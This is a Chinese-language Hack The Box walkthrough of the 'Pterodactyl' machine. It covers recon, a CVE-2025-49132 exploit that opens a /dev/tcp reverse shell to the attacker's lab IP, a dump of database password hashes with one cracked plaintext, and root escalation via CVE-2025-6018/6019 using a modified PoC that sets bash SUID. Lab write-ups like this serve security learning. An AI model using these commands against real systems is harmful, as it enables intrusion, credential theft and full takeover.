# HTB Season 10 Pterodactyl

---

## 信息收集

### 端口扫描

```bash
nmap --min-rate 5000 -T4 -p- 10.129.27.189
```



#### 详细扫描

```bash
nmap -sVC --min-rate 5000 -T4 -p22,80,443,8080 10.129.27.189
```



### 子域名枚举

```bash
wfuzz -c -w '/root/Desktop/wordlists/amass/subdomains-top1mil-5000.txt' -u http://pterodactyl.htb -H "Host:FUZZ.pterodactyl.htb" --hc 301
```



play.pterodactyl.htb ---**302跳转**---> pterodactyl.htb



### 目录扫描

- **mainSite**
```bash
dirsearch -u http://pterodactyl.htb
```



---

## 漏洞利用

### CVE-2025-49132

POC: [https://github.com/YoyoChaud/CVE-2025-49132](https://github.com/YoyoChaud/CVE-2025-49132)

在`pterodactyl.htb/changelog.txt`下暴露pPterodactyl Panel版本为v1.11.10



- **CVE-2025-49132**
  - **漏洞描述：**
    - 攻击者可通过对 /locales/locale.json 端点构造包含 locale 和 namespace 参数的恶意请求，在未经身份验证的情况下读取敏感数据(如配置文件、.env)、有限地(`register_argc_argv = On`且安装`PEAR`)执行任意代码，进而完全控制面板服务器
  - **漏洞影响：**
    - Pterodactyl Panel <1.11.11
  - **漏洞修复：**
    - 目前厂商已发布升级补丁以修复漏洞

敏感信息泄露:
详见`Pterodactyl/loot.json`



RCE测试成功



### wwwrun

```bash
# attack
python exploit.py http://panel.pterodactyl.htb --rce-cmd '/bin/bash -i >& /dev/tcp/10.10.16.114/4444 0>&1' --pear-dir /usr/share/php/PEAR
# 由于反弹的shell没有交互性，需要升级为pty shell
python3 -c "import pty;pty.spawn('/bin/bash')"
```



#### 数据库泄露

`.env`中泄露数据库连接信息: **pterodactyl/PteraPanel**

user表:

```mysql
select * from users;
+----+-------------+--------------------------------------+--------------+------------------------------+------------+-----------+--------------------------------------------------------------+--------------------------------------------------------------+----------+------------+----------+-------------+-----------------------+----------+---------------------+---------------------+
| id | external_id | uuid                                 | username     | email                        | name_first | name_last | password                                                     | remember_token                                               | language | root_admin | use_totp | totp_secret | totp_authenticated_at | gravatar | created_at          | updated_at          |
+----+-------------+--------------------------------------+--------------+------------------------------+------------+-----------+--------------------------------------------------------------+--------------------------------------------------------------+----------+------------+----------+-------------+-----------------------+----------+---------------------+---------------------+
|  2 | NULL        | 5e6d956e-7be9-41ec-8016-45e434de8420 | headmonitor  | headmonitor@pterodactyl.htb  | Head       | Monitor   | $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2 | OL0dNy1nehBYdx9gQ5CT3SxDUQtDNrs02VnNesGOObatMGzKvTJAaO0B1zNU | en       |          1 |        0 | NULL        | NULL                  |        1 | 2025-09-16 17:15:41 | 2025-09-16 17:15:41 |
|  3 | NULL        | ac7ba5c2-6fd8-4600-aeb6-f15a3906982b | phileasfogg3 | phileasfogg3@pterodactyl.htb | Phileas    | Fogg      | $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi | 6XGbHcVLLV9fyVwNkqoMHDqTQ2kQlnSvKimHtUDEFvo4SjurzlqoroUgXdn8 | en       |          0 |        0 | NULL        | NULL                  |        1 | 2025-09-16 19:44:19 | 2025-11-07 18:28:50 |
+----+-------------+--------------------------------------+--------------+------------------------------+------------+-----------+--------------------------------------------------------------+--------------------------------------------------------------+----------+------------+----------+-------------+-----------------------+----------+---------------------+---------------------+
```

### phileasfogg3

#### hashcat

```bash
hashcat -m 3200 -a 0 hashs /usr/share/wordlists/rockyou.txt
```

`phileasfogg3:!QAZ2wsx`



---

**ssh登录成功**




**phileasfogg3**邮件中收到管理员对`udisks2`组件的警示



---

#### CVE-2025-6018&CVE-2025-6019

[https://github.com/DesertDemons/CVE-2025-6018-6019](https://github.com/DesertDemons/CVE-2025-6018-6019)

- **CVE-2025-6018**
  - **漏洞描述：**
    -  该漏洞允许远程非特权攻击者强制pam_env模块将任意变量添加到 PAM 的环境中，以获取 polkit 策略的“allow_active”认证，从而获得本地用户权限(可执行关机、访问敏感接口等操作)。
    - **漏洞影响：**
      - openSUSE Leap 15 / SLES 15
    - **漏洞修复：**
      - 立即更新 PAM 相关组件

```bash
# ~/.pam_environment
XDG_SEAT=seat0
XDG_VTNR=1
```

- **CVE-2025-6019**
  - **漏洞描述：**
    -  拥有“allow_active”权限的用户可利用此漏洞获取 root 权限。由于默认安装的 udisks 服务依赖 libblockdev，漏洞存在广泛性极高。
  - **漏洞影响：**
    - Ubuntu、Debian、Fedora、openSUSE 等主流发行版 
  - **漏洞修复：**
    - 立即更新 libblockdev 组件至以下版本：
      - libblockdev 3.*旧稳定版 >= 3.2.2
      - libblockdev 2.*旧稳定版 >= 2.30
      - libblockdev >= 3.3.1



---

1. **修改POC：**

```shell
if [[ -x "${d}xpl" ]]; then
    "${d}xpl" -p -c 'echo ""; echo "=== ROOT SHELL OBTAINED ==="; id; echo ""' 2>/dev/null
    "${d}xpl" -p -c "chmod 4755 /bin/bash" 2>/dev/null
    echo -e "\n[+] SUCCESS: /bin/bash is now SUID root\n"
    exit 0
fi
```



2. **手动制作xfs镜像**

```bash
# /tmp 下可能会因为nosuid权限导致挂载时无法给自制bash添加SUID权限
cd /root

# 1. 使用安全标志创建300MB的xfs镜像
dd if=/dev/zero of=xfs.img bs=1M count=300
mkfs.xfs -f -i exchange=0 -n parent=0 xfs.img

# 2. 使用suid挂载选项挂载xfs镜像
mkdir -p /root/mnt
mount -o loop,suid xfs.img /root/mnt

# 3. 复制目标系统的bash二进制文件到挂载点,并设置SUID权限
cp /bin/bash /root/mnt/xpl
chmod 4755 /root/mnt/xpl
chown root:root /root/mnt/xpl
ls -la /root/mnt/xpl  # MUST show: -rwsr-xr-x

# 4. 卸载xfs镜像,并传输到目标系统
umount /root/mnt  
scp xfs.img phileasfogg3@pterodactyl.htb:~
scp exploit.sh phileasfogg3@pterodactyl.htb:~
```

3. **利用漏洞获取root权限**

```bash
exploit.sh --exploit ./xfs.img
# 如果未顺利继承root权限,手动bash -p
bash -p
```



